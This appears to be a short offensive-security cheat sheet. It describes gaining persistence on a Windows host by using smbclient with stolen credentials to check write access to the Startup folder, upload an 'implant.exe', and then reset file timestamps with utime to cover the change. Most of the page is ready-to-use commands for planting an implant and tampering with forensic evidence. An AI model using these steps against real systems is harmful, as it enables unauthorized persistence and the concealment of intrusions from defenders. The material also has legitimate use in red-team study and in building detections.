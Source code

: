 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Detect

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp"
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put implant.exe
```

## 03 - Cleanup


```
smb: \> help utime
HELP utimes:
		<file name> <create_time> <access_time> <mod_time> <ctime> set times

smb: \> utime file.txt [YY]YY:MM:DD-HH:MM:SS [YY]YY:MM:DD-HH:MM:SS [YY]YY:MM:DD-HH:MM:SS [YY]YY:MM:DD-HH:MM:SS
```

```
smb: \> rm implant.exe
```